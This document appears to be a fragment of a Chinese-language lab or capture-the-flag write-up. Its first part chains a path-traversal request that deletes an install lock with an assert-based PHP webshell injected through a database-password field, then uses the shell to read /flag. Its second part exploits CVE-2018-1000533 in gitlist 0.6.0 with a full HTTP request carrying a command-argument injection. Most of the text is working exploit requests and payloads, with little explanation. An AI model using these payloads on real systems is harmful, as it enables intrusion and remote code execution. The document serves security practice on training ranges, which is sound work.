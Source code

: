 删除安装锁

```
/admin/app/batch/csvup.php?fileField=test-1&flienamecsv=../../../config/install.lock
```

```
数据库密码= "*/assert($_REQUEST[1])/*"
/config/config_db.php?1=readfile("/flag");
```

![image-20230714162327891](%E9%9D%B6%E5%9C%BA.assets/image-20230714162327891.png)



## CVE-2018-1000533 gitlist远程命令任意执行

*靶标介绍：*

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本中，存在一处命令参数注入问题，可以导致远程命令执行漏洞

```
POST /example/tree/a/search HTTP/1.1
Host: eci-2ze2wzytqkara356p0ot.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

query=--open-files-in-pager=cat /flag>/var/www/html/flag;
```

![image-20230714164152086](%E9%9D%B6%E5%9C%BA.assets/image-20230714164152086.png)
